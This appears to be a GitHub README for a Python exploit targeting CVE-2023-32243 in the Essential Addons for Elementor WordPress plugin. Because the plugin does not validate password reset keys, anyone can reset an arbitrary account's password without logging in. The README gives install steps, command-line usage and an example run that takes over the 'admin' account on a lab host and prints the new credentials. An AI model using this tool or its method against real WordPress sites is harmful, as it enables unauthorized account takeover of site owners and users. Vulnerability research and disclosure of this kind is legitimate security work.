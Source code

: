 # CVE-2023-32243.
Essential Addons for Elementor 5.4.0-5.7.1 - Unauthenticated Privilege Escalation

Info
---
The plugin does not validate the password reset key, which could allow unauthenticated attackers to reset arbitrary account's password to anything they want, by knowing the related email or username, gaining access to them

Python Setup
----

```
pip install -r requirements.txt
```


Exploit Details
----

https://patchstack.com/articles/critical-privilege-escalation-in-essential-addons-for-elementor-plugin-affecting-1-million-sites/

Usage
----

```
usage: exploit.py [-h] -u URL -p PASSWORD [-usr USERNAME]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of the WordPress site
  -p PASSWORD, --password PASSWORD
                        Password to set for the selected username
  -usr USERNAME, --username USERNAME
                        Username of the user to reset if you already know it.
 ```

Example
----

```
python3 exploit.py --url http://wordpress.lan  --password "adminadmin2"
Please select a username:
1. admin
> 1
Nonce value: f010bc2ac9
All Set! You can now login using the following credentials:
Username:  admin
Password:  adminadmin2
Admin Url: http://wordpress.lan/wp-admin/
```
